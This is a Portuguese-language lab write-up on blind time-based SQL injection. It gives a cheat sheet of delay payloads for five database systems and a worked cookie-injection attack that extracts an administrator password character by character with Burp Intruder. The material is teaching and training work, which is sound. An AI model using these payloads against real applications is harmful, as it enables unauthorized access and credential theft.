


# Lab: Blind SQL injection with time delays and information retrieval

## Enunciado (traduzido)

Este lab contém uma vulnerabilidade de SQL injection cega (Blind SQLi). A aplicação utiliza um cookie de rastreamento (`TrackingId`) para análise de métricas e executa uma consulta SQL contendo o valor do cookie enviado.

Os resultados da consulta SQL não são retornados na página e a aplicação não responde de forma diferente caso a query retorne linhas ou ocorra algum erro. No entanto, como a consulta é executada de forma síncrona pelo servidor, é possível disparar atrasos de tempo condicionais (time delays) para inferir informações.

O banco de dados contém uma tabela chamada `users`, com colunas chamadas `username` e `password`. Você precisa explorar a vulnerabilidade para descobrir a senha do usuário `administrator`.

Para resolver o lab, faça login como o usuário `administrator`.

## O que fiz

Neste cenário nos deparamos com a forma mais restritiva de Blind SQL Injection: a aplicação não exibe dados na tela, não altera o conteúdo visual em respostas verdadeiras/falsas e não expõe mensagens de erro.

Como o backend costuma processar as consultas de forma síncrona (ou seja, a aplicação espera o banco de dados responder antes de enviar o HTML de volta), podemos usar o **tempo de resposta do servidor** como nosso canal de inferência. Se uma condição for verdadeira, forçamos o banco de dados a "dormir" (pausar) por alguns segundos.

---

### Mapeando as técnicas de atraso por Banco de Dados

Cada Sistema Gerenciador de Banco de Dados (SGBD) possui sua própria sintaxe e funções específicas para forçar pausas na execução. Conhecer essas variações é fundamental durante a fase de reconhecimento:

> #### PostgreSQL
> * **Função Nativa (`pg_sleep`):** Pausa a execução pela quantidade de segundos informada.
>   * `xyz'; SELECT pg_sleep(10)--`
>   * `xyz' || pg_sleep(10)--`
>   * `xyz' AND (SELECT 1 FROM pg_sleep(10))='1`
> * **Condicional (`CASE WHEN` ou `WHERE`):**
>   * `xyz' AND (SELECT 1 FROM pg_sleep(10) WHERE (1=1))='1`
>   * `xyz' AND CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--`

> #### MySQL / MariaDB
> * **Função Nativa (`sleep`):** Retorna `0` após concluir o tempo.
>   * `xyz' AND sleep(10)--`
>   * `xyz' OR sleep(10)--`
> * **Função de Carga (`BENCHMARK`):** Executa uma função criptográfica repetidas vezes para sobrecarregar a CPU e simular um atraso caso o comando `sleep` esteja bloqueado:
>   * `xyz' AND BENCHMARK(5000000, MD5('a'))--`

> #### Microsoft SQL Server (MSSQL)
> * **Comando de Fluxo (`WAITFOR DELAY`):** Define a pausa no formato de relógio (`horas:minutos:segundos`).
>   * `xyz'; WAITFOR DELAY '0:0:10'--`
> * **Pausa com Condicional (`IF`):**
>   * `xyz'; IF (1=1) WAITFOR DELAY '0:0:10'--`

> #### Oracle Database
> * **Pacote de Mensagens (`DBMS_PIPE`):** Faz o Oracle escutar um canal fictício aguardando uma mensagem que nunca chegará durante o tempo estipulado:
>   * `xyz' AND dbms_pipe.receive_message('canal_falso', 10)=1--`
> * **Pacote de Trava (`DBMS_LOCK`):**
>   * `xyz'; exec dbms_lock.sleep(10);--` *(geralmente requer permissões elevadas de DBA)*

> #### SQLite
> * **Consumo Intensivo de CPU:** Como o SQLite não possui funções nativas de temporização, geramos blobs massivos na memória combinados com funções de texto (`upper` e `hex`) para consumir processamento:
>   * `xyz' || upper(hex(randomblob(50000000)))--`

---

### Identificando o banco e construindo o atraso condicional

Testando as técnicas acima no cookie `TrackingId`, confirmamos que a aplicação responde aos comandos do **PostgreSQL** através da função `pg_sleep()`.

Para transformar esse atraso em um teste de adivinhação caractere por caractere, estruturamos uma subquery onde o `pg_sleep(10)` só é executado se a condição dentro do `WHERE` for atendida:

```sql
Cookie: TrackingId=xyz' AND (SELECT 1 FROM pg_sleep(10) WHERE (1=1))='1; session=...
```

* Se a condição for **verdadeira (`1=1`)**: O banco executa `pg_sleep(10)` e a resposta do servidor demora **10 segundos** para retornar.
* Se a condição for **falsa (`1=2`)**: A cláusula `WHERE` descarta a linha, a função não é chamada e a resposta retorna instantaneamente (**milissegundos**).

É importante lembrar também que no burp, na aba direita no `Inspector` ele tem todas as variaveis usadas, então você pode pegar a do TrackingId, e adicionar sua query no final e fazer ele aplicar as mudanças para ser aceito e não quebrar a query, como por exemplo uma query que usa `;` quebraria se não fosse tratada antes de mandar.

---

### Extraindo a senha caractere por caractere

Substituímos a condição de teste para verificar letra por letra da senha do administrador usando a função `SUBSTRING()`:

```sql
Cookie: TrackingId=xyz' AND (SELECT 1 FROM pg_sleep(10) WHERE substring((SELECT password FROM users WHERE username='administrator'), 1, 1) = 'a')='1
```

Enviamos a requisição para o **Burp Intruder**:

1. Marcamos o caractere de teste como variável:
   ```http
   Cookie: TrackingId=xyz' AND (SELECT 1 FROM pg_sleep(10) WHERE substring((SELECT password FROM users WHERE username='administrator'), 1, 1) = '§a§')='1; session=...
   ```
2. Carregamos uma lista com caracteres alfanuméricos minúsculos (`a-z`, `0-9`).
3. Ordenamos os resultados pela coluna **Response Completed** (ou tempo de resposta). A requisição que demorar mais de 10 segundos representa o caractere correto.

Primeira letra identificada:



Ajustamos o índice para a segunda posição:

```http
Cookie: TrackingId=xyz' AND (SELECT 1 FROM pg_sleep(10) WHERE substring((SELECT password FROM users WHERE username='administrator'), 2, 1) = '§a§')='1; session=...
```



Repetimos a iteração para todas as posições até reconstruir a senha completa: `3jwlmc16vhgamsedl3z8`.

---

### Validação final e Login

Para validar a senha extraída com precisão absoluta, enviamos uma consulta comparando a string inteira:

```sql
' AND (SELECT 1 FROM pg_sleep(10) WHERE (SELECT password FROM users WHERE username='administrator') = '3jwlmc16vhgamsedl3z8')='1
```

A requisição segurou a resposta por 10 segundos, confirmando que a senha está correta.

Acessamos `/login`, autenticamos como `administrator` utilizando a senha obtida e concluímos o lab com sucesso.

---

[⬅ Voltar](../../../README.md)